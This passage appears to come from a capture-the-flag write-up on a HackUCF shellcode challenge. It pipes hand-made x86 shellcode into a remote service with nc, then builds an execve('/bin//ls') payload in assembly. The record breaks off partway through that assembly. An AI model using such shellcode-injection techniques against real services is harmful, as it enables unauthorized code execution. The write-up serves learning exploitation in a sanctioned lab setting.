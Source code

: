 And can we run the shellcode on the server?:
```
> python -c "print ('\xeb\x15\x59\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\xb2\x0e\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe6\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a')" | nc ctf.hackucf.org 10103
Send me shellcode, and I'll run it for you!
Running shellcode!
Hello, world!
```
Yes, we can!
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'\xeb\x15\x59\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\xb2\x0e\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe6\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a')" | nc ctf.hackucf.org 10103`

Now, let's convert this to an `ls` on the server using `execve()` as we started earlier.
For 32-bit `execve()`, the set up is:
| Register | Contents|
|----------|---------|
| EAX      | System call number|
| EBX      | Pointer to command - should be null terminated|
| ECX      | Pointer to command (for argv - can include other args)|
| EDX      | Evironment (envp) - usually zero|

Because we need null terminated strings, it easier to move to using the push-pop method of storing the strings (see the [webpage](https://nobe4.fr/shellcode-for-by-newbie/) I used). This means we need to convert our `/bin/ls` into bytes we can push to the stack, where we can retrieve them for the appropriate registers:
```
> python -c "print('/bin/ls'.encode('hex'))"
2f62696e2f6c73
```
This has only 7 bytes, and we need 4 per `push` (the total length of output from the above command needs to be a multiple of 8), otherwise one of the bytes will be zero and will terminate the input at that point. Therefore, we add an extra slash to pad it out, which will make no difference to the command:
```
> python -c "print('/bin//ls'.encode('hex'))"
2f62696e2f2f6c73
```
> **Note:** The above commands work in Python2. To get the hex values in Python3, use:  
  `python3 -c "import binascii; print(binascii.b2a_hex(b'/bin//ls'))"`


So we need to push to the stack `0x6e69622f` and `0x736c2f2f`. Whatever is pushed last will be popped first, so we also need to reverse these so that `0x736c2f2f` is pushed first.

Now the assembly language becomes:
```asm
# /bin/ls test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x736c2f2f            ; Push the executable string (bin/ls) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
```